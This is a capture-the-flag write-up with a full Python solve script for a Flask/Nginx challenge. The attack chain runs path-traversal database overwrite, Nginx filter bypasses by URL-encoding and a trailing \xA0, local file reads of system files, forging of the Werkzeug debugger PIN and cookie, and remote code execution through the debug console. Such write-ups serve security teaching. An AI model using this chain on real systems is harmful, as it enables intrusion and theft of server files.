


## catstagram  



This chall involves a relatively small Flask server that manages user accounts with a SQLite database, and also allows users to upload files.  

The `/admin` endpoint has a obvious LFI vuln, as it reads user-supplied filepaths without any sanitisation.  

```python
@app.route('/admin', methods=['GET', 'POST'])
@admin_required
def admin():
    if request.method == 'POST':
        filename = request.form.get('filename', 'cats.json')
    else:
        filename = 'cats.json'
    cats = get_cats()
    try:
        with open(filename, 'r') as file:
            file_content = file.read()
        return render_template('admin.html', filename=filename, file_content=file_content, user=session.get('user'), cats=cats)
    except FileNotFoundError:
        flash(f'File "{filename}" not found.', 'error')
        return render_template('admin.html', filename=filename, file_content='File not found', user=session.get('user'), cats=cats)
    except Exception as e:
        flash(f'Error reading file: {str(e)}', 'error')
        return render_template('admin.html', filename=filename, file_content=f'Error: {str(e)}', user=session.get('user'), cats=cats)
```

However, the Dockerfile shows that the flag file is stored in root with a random suffix. The suffix is generated with `8` random alphanumeric characters, which means the entropy is too high for us to run a simple bruteforce.  

This means that pure LFI in `/admin` won't suffice in helping us retrieve the flag. That, coupled with the fact that the flag isn't referenced anywhere in the source code, strongly hints that we must get RCE somehow.  

```dockerfile
FROM python:3.11-slim

WORKDIR /app

ENV PYTHONUNBUFFERED=1

RUN pip install flask

COPY . .

RUN FLAG="flag-$(head -c 80 /dev/urandom | tr -dc A-Za-z0-9 | head -c 8).txt" && mv ./flag.txt /$FLAG

CMD ["python", "app.py"]
```

If we look at the Flask server source, we will notice that the app is run with the `debug` flag, which strongly hints at a Flask debugger RCE vuln.  

We can potentially use the LFI primitive in `/admin` to leak the public and private bits used to compute the Flask debugger key, allowing us to unlock the Flask debugger console and get full RCE on the server.  

```python
if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
```

Now that we have a general solve path in mind, we need to focus on the other restrictions in this chall.  

The most obvious constraint would be the filters in the Nginx proxy. It blacklists `/admin` in the URL path, and also filters for certain URL parameters.  

These filters will make sense later on, but for now, we can turn our attention to the restrictions in the Flask server as well.  

```nginx
worker_processes auto;
events { }

http {
    server {
        listen 80;

        location = /admin {
            return 403 "Forbidden";
        }

        location = /admin/ {
            return 403 "Forbidden";
        }

        location ~ ^/console {
            if ($args = "") {
                return 403 "Forbidden";
            }
            if ($args ~ "__debugger__=yes") {
                return 403 "Forbidden";
            }
            proxy_pass http://app:5000;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
        }

        location / {
            if ($args ~ "action=upload") {
                return 403 "Under Construction";
            }

            proxy_pass http://app:5000;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
        }
    }
}
```

The Flask server implements a simple wrapper on `/admin` that requires our account to have the `admin` role to gain access.  

```python
def admin_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if 'user' not in session:
            flash('Please log in to access this page.', 'error')
            return redirect(url_for('login'))
        username = session['user']
        user_role = get_user_role(username)
        if user_role != 'admin':
            flash('Access denied. Administrator privileges required.', 'error')
            return redirect(url_for('dashboard'))
        return f(*args, **kwargs)
    return decorated_function
```

The admin account is initialised with a cryptographically secure password, and all the queries being run are prepared, which means escalating our privileges isn't as straightforward as bruteforcing or SQLi.  

```python
ADMIN_PASSWORD = secrets.token_hex(20)

def get_db_conn():
    conn = sqlite3.connect("database.db")
    return conn

def init_db():
    os.system("rm database.db")
    conn = get_db_conn()
    cursor = conn.cursor()
    
    cursor.execute("""
    CREATE TABLE IF NOT EXISTS users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE NOT NULL,
        password TEXT NOT NULL,
        role TEXT DEFAULT 'user' CHECK(role IN ('admin', 'user'))
    )
    """)

    ...
    
    cursor.execute("insert into users(username, password, role) values (?, ?, ?)", ('admin', ADMIN_PASSWORD, 'admin'))
```

If we analyse the file upload functionality in `/dashboard`, we will notice a clear path traversal vulnerability, as there is barely any sanitisation on the filepath. The endpoint only checks the file extension against a blacklist, and there is virtually no restriction on path traversal.  

Although the extension filter is pretty extensive, we will notice that `.db` is omitted, which means that we can abuse the path traversal to overwrite `database.db` with our own forged database.  

```python
@app.route("/dashboard", methods=['GET', 'POST'])
@login_required
def dashboard():
    if request.method == 'POST':
        ...
        elif action == 'upload':
            file = request.files['cat_image']
            if file and file.filename:
                filename = file.filename.lower()
                prohibited_extensions = ['.html', '.py', '.js', '.css', '.json', '.sh', '.sql', '.xml', '.txt']
                if any(filename.endswith(ext) for ext in prohibited_extensions):
                    flash('Invalid file type. Please upload only image files (jpg, png, gif, etc.).', 'error')
                    return redirect(url_for('dashboard'))
                original_filename = file.filename
                file_extension = os.path.splitext(original_filename)[1].lower()
                file_basename = os.path.splitext(original_filename)[0]
                counter = 0
                final_filename = original_filename
                while is_filename_exists(final_filename):
                    counter += 1
                    final_filename = f"{file_basename}-{counter}{file_extension}"
                file.save(os.path.join(app.config["UPLOAD_FOLDER"], final_filename))
                cat_name = request.form.get('cat_name', 'Cute Cat')
                description = request.form.get('description', 'A wonderful cat moment!')
                owner = session.get('user', 'Anonymous')
                try:
                    add_cat_post(cat_name, owner, description, final_filename)
                    flash('Your cat photo has been shared successfully!', 'success')
                except Exception:
                    flash("Can't add post. Please try again.", 'error')
                return redirect(url_for('dashboard'))

                ...
```

However, it isn't as simple as making a POST request with our payload database. If we recall the Nginx proxy from earlier, we realise that it explicitly blocks `action=upload` in the URL parameters, which is what we need to be able to upload files in the first place.  

Thankfully, based on [this writeup](https://hackmd.io/@winky/H1yxdqj2ll), we can simply URL-encode the parameters to bypass the filter.  



We can first create our own `database.db` that contains an admin account with known credentials.  

```python
conn = sqlite3.connect('database.db')

conn.execute('DROP TABLE IF EXISTS users')
conn.execute('DROP TABLE IF EXISTS cats')

conn.execute("""
CREATE TABLE IF NOT EXISTS users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT UNIQUE NOT NULL,
    password TEXT NOT NULL,
    role TEXT DEFAULT 'user' CHECK(role IN ('admin', 'user'))
)
""")

conn.execute("""
CREATE TABLE IF NOT EXISTS cats (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    name TEXT NOT NULL,
    owner TEXT NOT NULL,
    description TEXT NOT NULL,
    url TEXT NOT NULL,
    like INTEGER NOT NULL 
)
""")

admin_creds = {
    'username': 'admin',
    'password': 'hacked'
}

conn.execute('INSERT INTO users(username, password, role) VALUES (?, ?, ?)', (*admin_creds.values(), 'admin'))

conn.commit()
conn.close()
```

Then, we can obfuscate `action=upload` using URL-encoding, then upload our malicious database.  

Unfortunately, since the `requests` library does some auto-normalisation in the background, we need to use the `socket` library to directly request the endpoint.  

Putting together everything we have so far, the exploit will look like this.  

```python
def req(body, payload=None):
    req = b'\r\n'.join(body) + b'\r\n\r\n' + (payload or b'')
     
    s = socket.socket()
    s.connect((host, port))
    s.sendall(req)

    resp = b""

    while True:
        data = s.recv(4096)
        if not data:
            break
        resp += data

    s.close()

    return resp.decode()

# normal login
creds = {
    'username': 'hacked',
    'password': 'hacked'
}

res = s.post(f'{url}/register', data=creds)
res = s.post(f'{url}/login', data=creds)

user_cookie = s.cookies['session']

# overwrite database
with open("database.db", 'rb') as f:
    raw = requests.Request(
        "POST",
        f"{url}/dashboard?action=%75pload",
        files={
            "cat_image": ("../../database.db", f, "application/octet-stream")
        }
    )

    prepared = s.prepare_request(raw)

resp = req([
    b"POST /dashboard?action=%75pload HTTP/1.1",
    f"Host: {host}".encode(),
    f'Content-Type: {prepared.headers["Content-Type"]}'.encode(),
    f"Content-Length: {len(prepared.body)}".encode(),
    f'Cookie: session={user_cookie}'.encode(),
    b"Connection: close",
], prepared.body)

# admin login
res = s.post(f'{url}/login', data=admin_creds)
```

Now that we have admin login, we need to figure out how to reach `/admin`, as the Nginx proxy blocks that as well.  

If we look at `docker-compose.yml`, we can find the exact version of Nginx installed in the container, which is `1.22.0`.  

```yaml
...

  nginx:
    image: nginx:1.22.0
    container_name: nginx_proxy
    restart: always
    ports:
      - "5000:80"
    volumes:
      - ./proxy/nginx.conf:/etc/nginx/nginx.conf:ro
    depends_on:
      - app
    networks:
      - app_net

  ...
```

This version has a well-known exploit where certain trailing bytes are silently dropped by Flask but not by Nginx, which creates a parser mismatch that allows for filter bypasses.  

In this case, `\xA0` is ignored by Flask, so we can just append that to `/admin` and reuse our socket bypass function from earlier to request `/admin` and get our LFI primitive.  

```python
def lfi(filename):
    payload = f'filename={filename}'.encode()

    resp = req([
        b"POST /admin\xA0 HTTP/1.1",
        f"Host: {host}".encode(),
        b"Content-Type: application/x-www-form-urlencoded",
        f"Content-Length: {len(payload)}".encode(),
        f'Cookie: session={admin_cookie}'.encode(),
        b"Connection: close",
    ], payload)

    assert 'file not found' not in resp.lower()

    contents = re.findall(r'<div class="file-content">(.+?)</div>', resp.replace('\n', ''))[0].strip()

    return contents

print(lfi('/etc/passwd'))
```

If we look at the Werkzeug source in `/usr/local/lib/python3.11/site-packages/werkzeug/debug/__init__.py`, we can find all the public and private bits we need.  

The public bits consist of `username`, `getattr(mod, "__file__", None)`, `modname` and `getattr(app, "__name__", type(app).__name__)`, which are the user that ran the app, the absolute path of the flask `app.py` source, the module name and the classname of the app.  

These are pretty straightforward as they can be easily derived. Based on the `Dockerfile`, the user is most likely `root`. `modname` and ``getattr(app, "__name__", type(app).__name__)` are always `flask.app` and `Flask`. `getattr(mod, "__file__", None)` can be derived from the Python version, which in this case is `/usr/local/lib/python3.11/site-packages/flask/app.py`.  

```python
def get_pin_and_cookie_name(
    app: WSGIApplication,
) -> tuple[str, str] | tuple[None, None]:
    """Given an application object this returns a semi-stable 9 digit pin
    code and a random key.  The hope is that this is stable between
    restarts to not make debugging particularly frustrating.  If the pin
    was forcefully disabled this returns `None`.

    Second item in the resulting tuple is the cookie name for remembering.
    """
    pin = os.environ.get("WERKZEUG_DEBUG_PIN")
    rv = None
    num = None

    # Pin was explicitly disabled
    if pin == "off":
        return None, None

    # Pin was provided explicitly
    if pin is not None and pin.replace("-", "").isdecimal():
        # If there are separators in the pin, return it directly
        if "-" in pin:
            rv = pin
        else:
            num = pin

    modname = getattr(app, "__module__", t.cast(object, app).__class__.__module__)
    username: str | None

    try:
        # getuser imports the pwd module, which does not exist in Google
        # App Engine. It may also raise a KeyError if the UID does not
        # have a username, such as in Docker.
        username = getpass.getuser()
    # Python >= 3.13 only raises OSError
    except (ImportError, KeyError, OSError):
        username = None

    mod = sys.modules.get(modname)

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", type(app).__name__),
        getattr(mod, "__file__", None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode()
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = f"__wzd{h.hexdigest()[:20]}"

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, cookie_name
```

The private bits are bit more complicated, consisting of the MAC address and the machine ID.  

The MAC address can be leaked by reading `/sys/class/net/eth0/address`, then converting it to decimal representation.  

```python
mac = lfi("/sys/class/net/eth0/address")
mac = str(int(mac.replace(':', ''), 16))
```

The machine ID can be obtained by reading both the boot ID from `/proc/sys/kernel/random/boot_id` and the container ID from `/proc/self/cgroup`.   

```python
machine_id = lfi('/proc/sys/kernel/random/boot_id')
machine_id += lfi("/proc/self/cgroup").split('\n')[0].strip().rpartition("/")[2]
```

Based on [this writeup](https://deltaclock.gitbook.io/ctf-writeups/securinets-ctf-quals-2021-mixed), we can interact with the debugger console through the `/console` endpoint, but to do so, we need two more additional pieces of information, which are the Werkzeug secret token and a valid Werkzeug auth cookie.  

We can modify the original Werkzeug source to reproduce the PIN and the cookie using our public and private bits.  

```python
import hashlib
from itertools import chain
import time

def hash_pin(pin: str) -> str:
    return hashlib.sha1(f"{pin} added salt".encode("utf-8", "replace")).hexdigest()[:12]

def crack(probably_public_bits, private_bits) -> tuple[str, str] | tuple[None, None]:
    rv = None
    num = None

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode()
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = f"__wzd{h.hexdigest()[:20]}"

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, f'{cookie_name}={int(time.time())}|{hash_pin(rv)}'

public = [username, 'flask.app', 'Flask', filename]
private = [mac, machine_id.encode()]

pin, cookie = crack(public, private)
```

If we are able to trigger an uncaught exception in the Flask app, we will be able to leak the Werkzeug secret in the traceback.  

We can achieve this by making a file upload request to `/dashboard` again, but this time, we don't provide the expected `application/octet-stream` `Content-Type` header, triggering the exception we need.  

```python
resp = req([
    b"POST /dashboard?action=%75pload HTTP/1.1",
    f"Host: {host}".encode(),
    f'Cookie: session={user_cookie}'.encode(),
    b"Connection: close",
])

secret = re.findall(r'SECRET = "([0-9a-zA-Z]+)"', resp)[0].strip()
```

Now that we have completed the entire setup, we can finally get our debugger RCE.  

To execute code through the `/console` endpoint, we need a valid frame ID. We can initialise frame `0` by requesting `/console` first. Since the Nginx proxy prevents requesting `/console` without any URL parameters, we can just use `?x=1`.  

```python
resp = req([
    f"GET /console?x=1 HTTP/1.1".encode(),
    f"Host: 127.0.0.1".encode(),
    b"Connection: close",
])
```

After that, we can just request `/console` with our leaked token and cookie, setting `?__debugger__=yes` using the URL-encode bypass from earlier.  

This allows us to get RCE and finally read the flag file in root.  

```python
cmd = '''
__import__('os').popen('cat /flag*').read()
'''.strip()

resp = req([
    f"GET /console?__debugger__=%79es&frm=0&s={secret}&cmd={quote(cmd)} HTTP/1.1".encode(),
    f"Host: 127.0.0.1".encode(),
    f'Cookie: {cookie}'.encode(),
    b"Connection: close",
])

print(resp)
```

Below is my full solve script for this challenge.  

```python
import requests
import socket
import re
import sqlite3
from urllib.parse import quote
import html
import os

host, port = 'host3.dreamhack.games', 17953
url = f"http://{host}:{port}"
s = requests.Session()

# for bypassing nginx proxy
def req(body, payload=None):
    req = b'\r\n'.join(body) + b'\r\n\r\n' + (payload or b'')
     
    s = socket.socket()
    s.connect((host, port))
    s.sendall(req)

    resp = b""

    while True:
        data = s.recv(4096)
        if not data:
            break
        resp += data

    s.close()

    return resp.decode()

# forge database.db
conn = sqlite3.connect('database.db')

conn.execute('DROP TABLE IF EXISTS users')
conn.execute('DROP TABLE IF EXISTS cats')

conn.execute("""
CREATE TABLE IF NOT EXISTS users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT UNIQUE NOT NULL,
    password TEXT NOT NULL,
    role TEXT DEFAULT 'user' CHECK(role IN ('admin', 'user'))
)
""")

conn.execute("""
CREATE TABLE IF NOT EXISTS cats (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    name TEXT NOT NULL,
    owner TEXT NOT NULL,
    description TEXT NOT NULL,
    url TEXT NOT NULL,
    like INTEGER NOT NULL 
)
""")

admin_creds = {
    'username': 'admin',
    'password': 'hacked'
}

conn.execute('INSERT INTO users(username, password, role) VALUES (?, ?, ?)', (*admin_creds.values(), 'admin'))

conn.commit()
conn.close()

# ovewrite database.db
creds = {
    'username': 'hacked',
    'password': 'hacked'
}

res = s.post(f'{url}/register', data=creds)
res = s.post(f'{url}/login', data=creds)

assert 'welcome to' in res.text.lower()
print("> Logged in")

user_cookie = s.cookies['session']
print("> User cookie:", user_cookie)

with open("database.db", 'rb') as f:
    raw = requests.Request(
        "POST",
        f"{url}/dashboard?action=%75pload",
        files={
            "cat_image": ("../../database.db", f, "application/octet-stream")
        }
    )

    prepared = s.prepare_request(raw)

resp = req([
    b"POST /dashboard?action=%75pload HTTP/1.1",
    f"Host: {host}".encode(),
    f'Content-Type: {prepared.headers["Content-Type"]}'.encode(),
    f"Content-Length: {len(prepared.body)}".encode(),
    f'Cookie: session={user_cookie}'.encode(),
    b"Connection: close",
], prepared.body)

assert 'redirecting...' in resp.lower()
print("> Overwrote database")

os.remove('database.db')

# admin login
res = s.post(f'{url}/login', data=admin_creds)
assert 'welcome to' in res.text.lower()
print("> Logged in as admin")

admin_cookie = s.cookies['session']
print("> Admin cookie:", admin_cookie)

# lfi
def lfi(filename):
    payload = f'filename={filename}'.encode()

    resp = req([
        b"POST /admin\xA0 HTTP/1.1",
        f"Host: {host}".encode(),
        b"Content-Type: application/x-www-form-urlencoded",
        f"Content-Length: {len(payload)}".encode(),
        f'Cookie: session={admin_cookie}'.encode(),
        b"Connection: close",
    ], payload)

    assert 'file not found' not in resp.lower()

    contents = re.findall(r'<div class="file-content">(.+?)</div>', resp.replace('\n', ''))[0].strip()

    return contents

# crack debugger pin
import hashlib
from itertools import chain
import time

def hash_pin(pin: str) -> str:
    return hashlib.sha1(f"{pin} added salt".encode("utf-8", "replace")).hexdigest()[:12]

def crack(probably_public_bits, private_bits) -> tuple[str, str] | tuple[None, None]:
    rv = None
    num = None

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode()
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = f"__wzd{h.hexdigest()[:20]}"

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, f'{cookie_name}={int(time.time())}|{hash_pin(rv)}'

# get public and private bits
username = 'root'
filename = "/usr/local/lib/python3.11/site-packages/flask/app.py"

mac = lfi("/sys/class/net/eth0/address")
mac = str(int(mac.replace(':', ''), 16))

print("> Mac:", mac)

machine_id = lfi('/proc/sys/kernel/random/boot_id')
machine_id += lfi("/proc/self/cgroup").split('\n')[0].strip().rpartition("/")[2]

print("> Machine ID:", machine_id)

# crack pin
public = [username, 'flask.app', 'Flask', filename]
private = [mac, machine_id.encode()]

pin, cookie = crack(public, private)

print("> Pin:", pin)
print("> Cookie:", cookie)

# trigger error to get secret
resp = req([
    b"POST /dashboard?action=%75pload HTTP/1.1",
    f"Host: {host}".encode(),
    f'Cookie: session={user_cookie}'.encode(),
    b"Connection: close",
])

secret = re.findall(r'SECRET = "([0-9a-zA-Z]+)"', resp)[0].strip()

print("> Secret:", secret)

# initialise frame 0
resp = req([
    f"GET /console?x=1 HTTP/1.1".encode(),
    f"Host: 127.0.0.1".encode(),
    b"Connection: close",
])

# debugger rce
cmd = '''
__import__('os').popen('cat /flag*').read()
'''.strip()

resp = req([
    f"GET /console?__debugger__=%79es&frm=0&s={secret}&cmd={quote(cmd)} HTTP/1.1".encode(),
    f"Host: 127.0.0.1".encode(),
    f'Cookie: {cookie}'.encode(),
    b"Connection: close",
])

flag = re.findall(r'DH{.+}', html.unescape(resp))[0].strip()
print("Flag:", flag)
```

Flag: `DH{d0_y0u_l1k3_c475_7h3y_4r3_cu73_r16h7?}`